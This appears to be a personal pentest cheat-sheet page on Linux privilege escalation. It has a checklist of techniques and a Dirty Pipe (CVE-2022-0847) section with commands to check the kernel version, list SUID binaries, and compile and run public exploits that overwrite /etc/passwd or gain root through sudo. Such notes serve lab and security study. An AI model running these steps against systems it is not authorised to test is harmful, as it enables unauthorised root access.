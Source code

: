 
- [ ] [[#Kernel Exploits]]
- [ ] [[#Shared Libraries (DLL)]]
- [ ] [[#Python Library Hijacking (SUID / Sudo)]]
- [ ] [[#Python Module CVEs]]
- [ ] [[#Netfilter]]

# Kernel Exploits

- [[#Dirty Pipe ([CVE-2022-0847](https //cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847))|Dirty Pipe]]
- 


1. Identifier la version du kernel

```shell
uname -r
```

 (DirtyPipe / DirtyCow?)

## Dirty Pipe ([CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847))

> [!TIP]
> Versions `5.8` à `5.17`

https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits

```shell
bash compile.sh
```

 (`exploit-1`) modifies the `/etc/passwd`

```shell
./exploit-1
```


(`exploit-2`) execute SUID binaries with root privileges

```shell
find / -perm -4000 2>/dev/null
```

```shell
./exploit-2 /usr/bin/sudo
```


---
# Shared Libraries (DLL)

- [[#LD_PRELOAD (Sudo)]]
- [[#Shared Object Hijacking (SUID / Sudo)]]
